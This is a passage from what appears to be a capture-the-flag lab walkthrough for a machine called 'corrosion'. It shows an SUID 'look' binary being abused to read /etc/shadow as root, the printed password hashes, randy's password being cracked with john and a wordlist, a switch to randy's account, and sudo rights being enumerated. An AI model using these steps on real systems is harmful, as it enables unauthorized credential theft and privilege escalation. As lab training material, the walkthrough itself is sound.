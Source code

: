 It appears we do have an unusual binary with `SUID`. Using `look`, we can read any file on the system as `root`. Let's try to grab `/etc/shadow` and pass the hasses to `john`.

```bash
$ /home/jaye/Files/look '' "/etc/shadow"
root:$6$fHvHhNo5DWsYxgt0$.3upyGTbu9RjpoCkHfW.1F9mq5dxjwcqeZl0KnwEr0vXXzi7Tld2lAeYeIio/9BFPjUCyaBeLgVH1yK.5OR57.:18888:0:99999:7:::
...
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```

It takes awhile using a VM, but `john` was able to recover `randy`'s password.

```bash
┌──(kali㉿kali)-[~]
└─$ john corrosion2.hashes --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
07051986randy    (randy)
1g 0:00:00:00 DONE (2021-12-22 11:09) 20.00g/s 20.00p/s 20.00c/s 20.00C/s 07051986randy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we can `su` to `randy` and enumerate some more.

```bash
$ su randy
Password:
randy@corrosion:/var/spool/cron$
```

Let's begin by checking our `sudo` priveleges.

```bash
randy@corrosion:/var/spool/cron$ sudo -l
[sudo] password for randy:
Matching Defaults entries for randy on corrosion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User randy may run the following commands on corrosion:
    (root) PASSWD: /usr/bin/python3.8 /home/randy/randombase64.py
```

It looks like there is a `python` script we can execute as `root`. Let's see what our permissions are on the file itself.
